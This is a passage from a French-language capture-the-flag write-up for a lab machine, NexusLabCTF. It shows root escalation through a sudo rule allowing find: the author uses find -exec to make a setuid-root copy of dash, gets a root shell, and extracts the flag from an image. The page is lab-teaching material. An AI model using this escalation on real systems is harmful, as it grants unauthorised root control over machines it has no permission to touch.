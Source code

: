 
L'escalade de privilèges requiert juste de bien connaître la commande `find`.

```console
shelly@NexusLabCTF:~$ sudo -l
sudo: unable to resolve host NexusLabCTF: Temporary failure in name resolution
Matching Defaults entries for shelly on NexusLabCTF:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD, use_pty

User shelly may run the following commands on NexusLabCTF:
    (ALL) NOPASSWD: /usr/bin/find
```

Je vais l'utiliser pour rendre une copie de `dash` setuid root :

```console
shelly@NexusLabCTF:~$ which dash
/usr/bin/dash
shelly@NexusLabCTF:~$ cp /usr/bin/dash /tmp/g0tr00t
shelly@NexusLabCTF:~$ sudo /usr/bin/find /tmp/ -name g0tr00t -exec chown root:root {} \;
sudo: unable to resolve host NexusLabCTF: Temporary failure in name resolution
shelly@NexusLabCTF:~$ sudo /usr/bin/find /tmp/ -name g0tr00t -exec chmod 4755 {} \;
sudo: unable to resolve host NexusLabCTF: Temporary failure in name resolution
shelly@NexusLabCTF:~$ /tmp/g0tr00t  -p
# id
uid=1000(shelly) gid=1000(shelly) euid=0(root) groups=1000(shelly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
# cd /root
# ls
Sion-Code
# ls -al
total 32
drwx------  5 root root 4096 May  8 22:52 .
drwxr-xr-x 18 root root 4096 Mar 28 16:10 ..
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root    0 May  8 16:24 .fim_history
drwxr-xr-x  3 root root 4096 Apr 19 15:59 .local
-rw-------  1 root root    2 Apr 19 18:10 .mysql_history
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Mar 28 16:10 .ssh
drwxr-xr-x  2 root root 4096 May  8 16:43 Sion-Code
# ls Sion-Code
use-fim-to-root.png
```

On ne trouve pas de flag mais une image. Le flag est cependant dans les fichiers (tags exif ou ajouté en fin) :

```console
$ strings use-fim-to-root.png  | grep -i flag
;HMV-FLAG[[ p3vhKP9d97a7HMV79ad9ks2s9 ]]
```
